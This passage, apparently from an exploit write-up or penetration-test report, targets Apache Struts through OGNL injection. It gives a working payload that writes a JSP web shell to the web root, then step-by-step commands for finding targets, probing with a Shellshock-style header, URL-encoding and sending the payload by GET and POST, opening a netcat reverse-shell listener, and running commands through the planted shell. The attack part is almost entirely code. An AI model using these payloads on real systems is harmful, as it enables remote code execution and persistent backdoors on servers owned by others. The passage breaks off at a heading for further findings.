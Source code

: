 ```bash
# 4. Web shell creation
%{(#shell='<%@ page import="java.io.*" %><% String cmd = request.getParameter("cmd"); Process p = Runtime.getRuntime().exec(cmd); BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream())); String s; while((s = br.readLine()) != null) { out.println(s); } %>').(#f=new java.io.FileWriter('/var/www/html/shell.jsp')).(#f.write(#shell)).(#f.close())}
```

### **Reproduction Steps**
1. **Target Identification**
   ```bash
   # Identify Struts applications
   nmap -p 80,443,8080 --script http-enum target.com

   # Look for Struts-specific patterns
   curl -H "User-Agent: () { :; }; echo vulnerable" http://target.com/app.action
   ```

2. **Parameter Discovery**
   ```bash
   # Common Struts parameters
   action, method, redirect, redirectAction, actionName

   # Test injection points
   http://target.com/app.action?redirect:%{payload}
   http://target.com/app.action?method:%{payload}
   ```

3. **Payload Delivery**
   ```bash
   # URL-encode the OGNL payload
   python3 -c "import urllib.parse; print(urllib.parse.quote('%{payload}'))"

   # Send via GET request
   curl "http://target.com/app.action?action=ENCODED_PAYLOAD"

   # Send via POST request
   curl -X POST -d "action=ENCODED_PAYLOAD" http://target.com/app.action
   ```

4. **Verify Exploitation**
   ```bash
   # Listen for reverse shell
   nc -nlvp 4444

   # Check for command execution
   curl "http://target.com/app.action?cmd=whoami"

   # Verify web shell
   curl "http://target.com/shell.jsp?cmd=id"
   ```

---

## 🔍 **Additional Vulnerabilities Discovered**
